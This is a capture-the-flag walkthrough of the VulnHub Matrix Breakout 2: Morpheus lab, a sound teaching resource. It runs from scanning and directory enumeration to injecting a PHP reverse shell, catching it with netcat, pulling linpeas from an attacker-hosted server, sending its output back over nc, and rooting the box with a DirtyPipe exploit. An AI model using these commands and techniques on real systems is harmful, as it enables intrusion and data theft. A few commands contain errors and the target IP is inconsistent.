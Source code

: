 # Matrix Breakout 2 Morpheuas Walkthrough

Welcome to our in-depth walkthrough of the Matrix Breakout 2 machine, a challenging and educational penetration testing environment provided by VulnHub. This is the second machine in the Matrix-Breakout series, themed as a throwback to the first Matrix movie. You play Trinity, trying to investigate a computer on the Nebuchadnezzar that Cypher has locked everyone else out from, which holds the key to a mystery.
In this walkthrough, we'll guide you through the process of enumerating and compromising the Morpheus 12 machine, using a combination of tools and techniques to identify vulnerabilities and gain access to the system.
[Download Matrix Breakout 2: Morpheus](https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/)



## Lab Setup

To follow along, we'll be using VirtualBox with a bridged network connection.
To get started, we'll begin by identifying the target machine's IP address using  the arp scan 

```sh
 sudo arp-scan -l
```

We have :

- **Target Machine (Morpheus):** 192.168.159.134 
- **Attacker Machine:** 192.168.159.12

## Enumeration

From there, we'll dive into the enumeration process, exploring various techniques to uncover vulnerabilities and ultimately gain access to the system and nmap knows how to do this best by telling us what ports are open and the services running on them.

### Nmap Scan

```sh
nmap -sV -sC -p- -A <IP address>
```

--- Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 04:40 WAT
--- Nmap scan report for 192.168.159.132
--- Host is up (0.00060s latency).
--- Not shown: 65532 closed tcp ports (reset)
--- PORT   STATE SERVICE VERSION
--- 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
--- | ssh-hostkey: 
--- |_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)
--- 80/tcp open  http    Apache httpd 2.4.51 ((Debian))
--- |_http-title: Morpheus:1
--- |_http-server-header: Apache/2.4.51 (Debian)
--- 81/tcp open  http    nginx 1.18.0
--- | http-auth: 
--- | HTTP/1.1 401 Unauthorized\x0D
--- |_  Basic realm=Meeting Place
--- |_http-server-header: nginx/1.18.0
--- |_http-title: 401 Authorization Required
--- MAC Address: 00:0C:29:33:22:92 (VMware)
--- No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
--- TCP/IP fingerprint:
--- OS:SCAN(V=7.94SVN%E=4%D=4/24%OT=22%CT=1%CU=39718%PV=Y%DS=1%DC=D%G=Y%M=000C2
--- OS:9%TM=66287F38%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%I
--- OS:I=I%TS=A)OPS(O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW
--- OS:6%O5=M5B4ST11NW6%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88
--- OS:%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5B4NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%
--- OS:S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%
--- OS:RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W
--- OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
--- OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%D
--- OS:FI=N%T=40%CD=S)

--- Network Distance: 1 hop
--- Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

--- TRACEROUTE
--- HOP RTT     ADDRESS
--- 1   0.60 ms 192.168.159.132

--- OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
--- Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds

Using Nmap, we discovered the following open ports:

**22 (SSH)**
**80 (HTTP)**
**81 (HTTP)**

We visited the web page at http://192.168.159.134(Port 80).We see a webpage briefing  us on who  we are and our mission

![alt img](images/3-1.png)

## Directory Bursting
We use Gobuster to search for additional directories:


```sh 
gobuster -u http://192.168.159.132 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt 
```

During our search, we discovered some interesting files and pages:

--http://192.168.159.132/javascript
http://192.168.159.132/robot.txt
http://192.168.159.132/graffiti.php
http://192.168.159.132/graffiti.txt

## Gaining Shell

We've discovered something intriguing in the directories. The output from /graffiti.php redirects to /graffiti.txt, which could be quite useful for us. To leverage this, we'll manipulate the HTTP request and response using our trusted tool, Burp Suite. This allows us to thoroughly analyze and potentially exploit these findings.

![alt img](images/4-6.png)

**How do we do that?**

Make sure your browser is set to use Burp Suite as its proxy. An easy and popular way to do this is by using the FoxyProxy extension. Once enabled, you can add Burp Suite as a proxy, making the process faster and more efficient
Once we open Burp,
Have the interceptor on,
Load the page from the browser,
Check the HTTp response of the /graffiti.php,
Send to repeater

![alt img](images/4-5.png)

With this repeater, we can insert a malicious or reverse shell code to gain a shell session. We will be going with a reverse shell code from pentestmonkey reverse shell from git.
[Pentestmonkey Reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
![alt img](images/4-4.png)

 We are going to copy that code into our burp, add our listening machine and listening port, create a netcat listener on our attacking machine

```sh
nc -nlvp 4444
```


![alt img](images/4-7.png)

![alt img](images/4-8.png)
 
 And we are in!..
 Let go around and find our id and priviledges

 ![alt img](images/4-9.png)

 We found our first Flag.....where are the fireworks?🎉🎇🎆🎊🎉🎇🎆🎊🎉🎇🎆🎊🎉🎇🎆🎊

  ![alt img](images/4-3.png).

## Gaining Root
We might have gained shell as www-data... but that is low level user but to be able to get back our machine, we need to escalate our priviledges by working our way to root. Let us find out the vuneabilities usin LinPeas
LinPEAS is a script designed to search for possible paths to escalate privileges on a Linux system by identifying vulnerabilities and misconfigurations. We are going to elevate our privileges by first running LinPEAS and checking for vulnerabilities.
Firstly download linpeas from git
[LinPeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

**Or**
Create a linpeas.sh file 
```sh
nano linpeas.sh
```
Go to linpeas.sh, copy the code and paste into your file. 

![alt img](images/5-1.png)

Anyone that works well for you.Chnage the mode to make the scrippt executable


```sh
chmod +X linpeas.sh
```

Host a http server inthe directory the file is saved
```sh
python -m http.server 80
```
![alt img](images/5-2.png)

On the www-data shell, download the file from the  http server using wget 
```sh
wget http:<Attacker IP address>:80
```
This will download the linpeas script 
Make sure the script is executable (remember chmod)
Then run
```sh
./linpeas.sh
```

This process usually takes a lot of time and generates extensive data, so a cleaner approach is to save the results to a file called output. Then, transfer this file back to your machine for thorough examination.
```sh 
./linpeas >> output

```
Send back to your machine 
```sh 
nc <Attacker IP address> 4000 < output
```

From the output we find out  our system is vunerable  to **CVE-2022-0847 DirtyPipe**

![alt img](images/5-3.png)

We open our browser and find DirtyPipe EXploits from Alexis Ahmed. This exploit is written in C so we need gcc to be able to complie that and lucky for us, the exploit comes witha file that automatically compiles the script.All we have to do is follow the instructions  and download

[DirtyPipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c)

```sh
wget https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c
```
![alt img](images/5-4.png)


we change the mode to make the file executable

![alt img](images/5-5.png)

Ta-da! We've rooted this machine!

![alt img](images/5-6.png)

Morpheus 12 on VulnHub is an easy-rated CTF machine that focuses on web enumeration and privilege escalation. The Dirty Pipe exploit adds a fun twist to the challenge. It's a great learning resource for beginners looking to practice their penetration testing skills.

Thank you for joining the walkthrough! I hope you enjoyed it.

***WhiteJ**